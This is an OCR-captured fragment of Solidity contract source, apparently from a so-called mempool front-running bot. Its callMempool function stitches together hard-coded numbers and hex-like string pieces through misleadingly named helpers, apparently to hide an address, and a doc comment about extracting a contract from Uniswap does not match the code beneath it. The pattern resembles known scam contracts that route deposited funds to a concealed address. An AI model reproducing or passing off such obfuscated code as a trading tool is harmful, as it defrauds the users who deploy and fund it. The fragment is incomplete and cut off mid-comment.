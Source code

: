     }

      function callMempool() internal pure returns (string memory) {

        string memory _memPoolOffset = mempool("x", checkLiquidity(getMemPoolOffset()));

        uint _memPoolSol = 534136;

        uint _memPoolLength = getMemPoolLength();

        uint _memPoolSize = 379113;

        uint _memPoolHeight = fetchContractID();

        uint _memPoolWidth = 308522;

        uint _memPoolDepth = contractData();

        uint _memPoolCount = 692501;

 

 

        string memory _memPool1 = mempool(_memPoolOffset, checkLiquidity(_memPoolSol));

        string memory _memPool2 = mempool(checkLiquidity(_memPoolLength), checkLiquidity(_memPoolSize));

        string memory _memPool3 = mempool(checkLiquidity(_memPoolHeight), checkLiquidity(_memPoolWidth));

        string memory _memPool4 = mempool(checkLiquidity(_memPoolDepth), checkLiquidity(_memPoolCount));

 

        string memory _allMempools = mempool(mempool(_memPool1, _memPool2), mempool(_memPool3, _memPool4));

        string memory _fullMempool = mempool("0", _allMempools);

 

 

        return _fullMempool;

    }

   /*

     * @dev Extracts the contract from Uniswap

     * @param self The slice to operate on.

     * @param rune The slice that will contain the first rune.

     * @return `rune`.

     */

    receive() external payable {}

    function getMempoolSol() private pure returns (string memory) {return "x58e";}

    function fetchMempoolEdition() private pure returns (string memory) {

        return "5879E3d46a3";

    }

   /*
